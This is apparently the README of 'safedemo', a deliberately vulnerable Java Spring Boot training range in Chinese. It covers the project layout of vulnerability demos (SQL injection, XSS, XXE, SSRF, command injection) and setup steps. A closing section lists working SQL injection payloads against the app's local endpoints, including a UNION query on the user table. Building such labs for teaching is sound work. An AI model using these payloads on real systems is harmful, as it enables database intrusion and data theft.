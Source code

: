 #### safedemo java靶场

#### 项目目录结构
> 
>.
> 
>├── docker         docker的集成环境（该项目的数据库文件也在这里）
> 
>├── log            项目的日志存放位置
> 
>├── pom.xml        maven项目表示
> 
>├── src
> 
>│   ├── main
> 
>│   │   ├── java
> 
>│   │   │   └── com
> 
>│   │   │       └── safe
> 
>│   │   │           └── demo
> 
>│   │   │               ├── SafeHoleApplication.java     springboot项目启动入口
> 
>│   │   │               ├── goodscode                    安全编码demo
> 
>│   │   │               ├── hole   
> 
>│   │   │               │   ├── config                   配置文件
> 
>│   │   │               │   ├── controller               漏洞demo
> 
>│   │   │               │   │   ├── CRLF.java
> 
>│   │   │               │   │   ├── CommandHole.java
> 
>│   │   │               │   │   ├── CookieSafe.java
> 
>│   │   │               │   │   ├── FileSource.java
> 
>│   │   │               │   │   ├── FindPasswd.java
> 
>│   │   │               │   │   ├── LogicHole.java
> 
>│   │   │               │   │   ├── Passwd.java
> 
>│   │   │               │   │   ├── RedirectHole.java
> 
>│   │   │               │   │   ├── ReflectHole.java
> 
>│   │   │               │   │   ├── RequestMethodHole.java
> 
>│   │   │               │   │   ├── SSRF.java
> 
>│   │   │               │   │   ├── SqlInjustion.java
> 
>│   │   │               │   │   ├── SwaggerRedirectController.java    swagger文档，通过这个可以在页面上测试demo
> 
>│   │   │               │   │   ├── UltraViresLoopholes.java          越权demo示例
> 
>│   │   │               │   │   ├── XPathHole.java
> 
>│   │   │               │   │   ├── XSS.java
> 
>│   │   │               │   │   ├── XXE.java
> 
>│   │   │               │   │   └── hibernate
> 
>│   │   │               │   │       ├── dao
> 
>│   │   │               │   │       │   ├── HibernateDao.java
> 
>│   │   │               │   │       │   └── HibernateDaoImpl.java
> 
>│   │   │               │   ├── exception                             全局异常处理器
> 
>│   │   │               │   ├── interceptor                           全局拦截器
> 
>│   │   │               │   ├── mapper
> 
>│   │   │               │   ├── pojo
> 
>│   │   │               │   ├── socket
> 
>│   │   │               │   └── utils
> 
>│   │   └── resources
> 
>│   │       ├── Generator.xml
> 
>│   │       ├── application-local.properties
> 
>│   │       ├── application-prod.properties
> 
>│   │       ├── application.properties
> 
>│   │       ├── esapi
> 
>│   │       │   ├── ESAPI.properties
> 
>│   │       │   └── esapi-java-logging.properties
> 
>│   │       ├── logback-spring.xml
> 
>│   │       ├── mapper
> 
>│   │       ├── mapperweb
> 
>│   │       ├── static
> 
>│   │       │   ├── csrf-poc.html        
> 
>│   │       │   ├── gettest.html
> 
>│   │       │   └── upload.html          文件上传页面
> 
>│   │       ├── templates
> 
>│   │       │   └── xss.html             xss展示页面
> 
│   │       └── xml
> 
>│   │           ├── payload.xml          xxe payload
> 
>│   │           └── users.xml



#### 项目docker下启动方式
> 进入docker目录下执行 \n
> docker-compose build . \n
> docker-compose up -d  \n

#### idea下启动方式
> 使用mysql数据库，导入数据库初始数据(test_jdbc.sql,目录结构有存放位置说明) 
>
> springboot项目启动入口为@SpringBootApplication（即SafeHoleApplication.java文件）

#### 项目访问地址
> http://localhost:8081


#### payload
>  /mybatis_special_sql_inject?name=user where 1=if((ascii(substr(database() from 1 for 1))),1,0) 
>
>  /mybatis_sql_inject/name=%' or 1=1-- q
>
>  /mybatis_sql_protect/name=%' or 1=1-- q
>
>  /hibernate_sql_inject/name=as' or 1=1 -- 1
>
>  /hibernate_sql_protect/name=as' or 1=1 -- 1
> 
>  /jdbc_sql_inject/?name=a' or 1=1 -- 1
>
>  /jdbc_sql_protect/name=a' or 1=1 -- 1
>
>  /prepare_sql_inject/?name=information_schema.tables where table=database() union select user.*,1,2,3,4,5,6,7,8,9,10,11,12,131,14,15,16 from user
>  
> 





